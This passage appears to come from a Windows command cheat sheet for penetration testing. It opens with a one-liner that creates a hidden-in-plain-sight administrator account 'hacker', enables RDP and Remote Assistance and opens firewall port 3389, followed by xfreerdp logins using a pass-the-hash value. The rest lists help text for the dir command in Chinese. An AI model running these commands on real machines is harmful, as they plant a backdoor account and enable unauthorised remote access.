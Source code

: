 ```bash

::Enable Remote assistance:
reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh firewall set service remoteadmin enable

::Ninja combo (New Admin User, RDP + Rassistance + Firewall allow)
net user hacker Hacker123! /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable

::Connect to RDP (using hash or password)
xfreerdp /u:alice /d:WORKGROUP /pth:b74242f37e47371aff835a6ebcac4ffe /v:10.11.1.49
xfreerdp /u:hacker /d:WORKGROUP /p:Hacker123! /v:10.11.1.49

```

## File&search

### dir

```
DIR [drive:][path][filename] [/A[[:]attributes]] [/B] [/C] [/D] [/L] [/N]
  [/O[[:]sortorder]] [/P] [/Q] [/R] [/S] [/T[[:]timefield]] [/W] [/X] [/4]

  [drive:][path][filename]
              指定要列出的驱动器、目录和/或文件。

  /A          显示具有指定属性的文件。
  属性         D  目录                R  只读文件
               H  隐藏文件            A  准备存档的文件
               S  系统文件            I  无内容索引文件
               L  解析点             -  表示“否”的前缀
  /B          使用空格式(没有标题信息或摘要)。
  /C          在文件大小中显示千位数分隔符。这是默认值。用 /-C 来
              禁用分隔符显示。
  /D          跟宽式相同，但文件是按栏分类列出的。
  /L          用小写。
  /N          新的长列表格式，其中文件名在最右边。
  /O          用分类顺序列出文件。
  排列顺序     N  按名称(字母顺序)     S  按大小(从小到大)
               E  按扩展名(字母顺序)   D  按日期/时间(从先到后)
               G  组目录优先           -  反转顺序的前缀
  /P          在每个信息屏幕后暂停。
  /Q          显示文件所有者。
  /R          显示文件的备用数据流。
  /S          显示指定目录和所有子目录中的文件。
  /T          控制显示或用来分类的时间字符域。
  时间段      C  创建时间
              A  上次访问时间
              W  上次写入的时间
  /W          用宽列表格式。
  /X          显示为非 8.3 文件名产生的短名称。格式是 /N 的格式，
              短名称插在长名称前面。如果没有短名称，在其位置则
              显示空白。
  /4          用四位数字显示年

# 显示当前路径下所有文件的绝对路径，含子目录内容
dir /b /s /o:n /a:a

# 显示当前路径下目录的绝对路径
```